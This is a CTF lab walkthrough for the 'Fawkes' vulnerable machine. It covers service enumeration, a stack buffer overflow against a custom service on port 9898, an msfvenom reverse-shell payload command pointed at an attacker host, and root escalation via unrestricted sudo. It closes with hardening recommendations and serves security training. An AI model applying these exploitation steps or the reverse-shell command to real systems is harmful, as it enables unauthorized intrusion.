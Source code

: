 # Fawkes CTF – Summary Walkthrough  

A full text-based breakdown of the **Fawkes vulnerable machine**. This box showcases unusual service discovery, exploitation through a classic buffer overflow, and privilege escalation via misconfigured sudo permissions.  

##  Discovery  
- Ran Nmap scan:  
nmap -sV -A <ip>

- Found ports:  
- 80 (HTTP)  
- 21 (FTP – anonymous enabled)  
- 2222 (SSH)  
- 9898 (custom Monkeycom service)  
- 22 (SSH)  

➡️ Insight: Target exposed multiple services, with an unusual custom binary listening on port **9898**.  

##  Enumeration  
- Ran Gobuster on web service:  
gobuster dir -u http://<ip>/
-w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
-x jpg,html,php,bak,zip,log,pdf

- Found `/index.html` but little else of value.  

- Checked FTP with anonymous login → **accessible (read-only)**.  
- Downloaded binary file: `server_hogwarts`.  

✅ Binary appeared to replicate the service running on port 9898.  

##  Foothold (Buffer Overflow)  
- Analyzed binary:  
strings server_hogwarts

→ References to `malloc` and C functions suggested unsafe memory handling.  

- Fuzzed input lengths with Python → crash at ~200 bytes.  
- Used GDB + Metasploit pattern to find **offset to EIP**.  

Steps:  
1. Generate pattern in msfconsole.  
2. Run binary under GDB.  
3. Send pattern to port 9898.  
4. Check EIP with `info registers`.  

- Confirmed EIP overwrite (control gained).  
- Identified bad characters.  

- Used **ropper** to locate `JMP ESP`.  
- Generated reverse shell payload with msfvenom:  
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<attacker-ip> LPORT=<port> -f py

- Built final exploit (Python): NOP sled + shellcode.  
- Started listener and launched exploit → **reverse shell as user harry**.  

✅ Initial access obtained.  

## Privilege Escalation (harry → root)  
- Checked privileges:  
sudo -l

- Output: **harry had full sudo rights**.  

- Escalated with:  
sudo -i

✅ Root shell gained 🎉  

---

##  Recommendations  
- **Service & Binary Hardening**  
- Disable custom vulnerable service on port 9898.  
- Apply compiler protections (Stack Canaries, ASLR, DEP).  

- **FTP Security**  
- Disable or restrict anonymous login.  

- **Privilege Management**  
- Remove unrestricted sudo for `harry`.  
- Regularly audit `sudoers` file.  

---

📖 **Full walkthrough with screenshots:**  
👉 [View the Medium post here](https://medium.com/@basitolasubomibalogun/harry-potter-series-fawkes-ctf-technical-walkthrough-7f03191fbf0a)
